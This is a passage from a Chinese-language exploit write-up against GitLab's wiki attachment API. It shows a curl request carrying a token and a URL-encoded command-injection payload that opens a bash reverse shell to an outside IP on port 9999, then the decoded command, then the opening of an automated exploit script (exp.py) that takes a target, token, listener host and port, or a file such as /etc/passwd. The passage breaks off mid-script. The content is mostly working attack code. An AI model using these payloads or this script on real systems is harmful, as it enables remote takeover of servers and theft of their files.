 ```
# 反弹 shell API 请求，必须用到项目路径
curl -H "private-token:pyLXE32y3Ab6va9p6mAA" 47.56.208.67/api/v4/projects/1/wikis/attachments -XPOST -d 'file[filename]=123&file[tempfile]=%7c+bash+-c+%22bash+-i+%3e%26+%2fdev%2ftcp%2f47.244.253.36%2f9999+0%3e%261%22' && echo

# 其中的反弹 shell 命令，是经过 URL 编码的
%7C+bash+-c+%22bash+-i+%3E%26+%2Fdev%2Ftcp%2F47.56.208.67%2F9999+0%3E%261%22

#明文命令是：
| bash -c "bash -i >& /dev/tcp/47.56.208.67/9999 0>&1"
```

-----------------


# 0x04 自动化攻击脚本



exp.py：

```
#!/usr/bin/env python3
# -*- coding: utf-8 -*
# author:snowming

import os
import re
import json
import requests
from optparse import OptionParser
import urllib

# Parse command line args:
usage = '\npython3 exp.py -p <project_url> -t "<private_token>" -l <listener_ip> -p <listener_port>\n'\
        'python3 exp.py -p <project_url> -t "<private_token>" -f "/etc/passwd"                          # not single \' but double \"'

parser = OptionParser(usage=usage)
parser.add_option("-u", '--URL', dest='url', action="store",
                  help="Target project URL")
parser.add_option("-l", '--LHOST', dest='lhost', action="store",
                  help="Host listening for reverse shell connection")
parser.add_option("-p", '--LPORT', dest='lport', action="store",
                  help="Port on which nc is listening")
parser.add_option("-f", '--file', dest='file', action="store",
          help="The file you want to see, no reverse shell for you.")
parser.add_option("-t", '--token',dest='token', action="store",
          help="private_token")
(options, args) = parser.parse_args()

URL = options.url
# check if specify scheme for Project URL
if('http' not in URL):
    print('You should specify URL Scheme! e.g. HTTP')
    exit(0)

URL = URL.rstrip('/')

substr = '/'
'''
# used for the file_path, SAMPLE OUTPUT: /root/test
PATH = URL[URL.find(substr,URL.find(substr)+3):len(URL)].rstrip('/')
```